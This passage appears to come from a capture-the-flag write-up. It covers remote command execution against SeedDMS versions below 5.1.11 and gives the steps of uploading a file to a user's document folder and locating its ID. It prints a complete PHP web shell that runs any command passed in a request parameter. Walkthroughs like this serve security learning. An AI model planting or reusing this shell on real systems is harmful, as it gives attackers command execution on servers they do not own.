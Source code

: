 
## SeedDMS RCE

SeedDMS versions < 5.1.11 - Remote Command Execution from [ExploitDB](https://www.exploit-db.com/exploits/47022)

**First,** find Michelle documents folder

![](/assets/img/posts/pit/Michelle-folder.png)

**Second,** Upload php web shell
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

* find document ID

  ![](/assets/img/posts/pit/document-id.png)
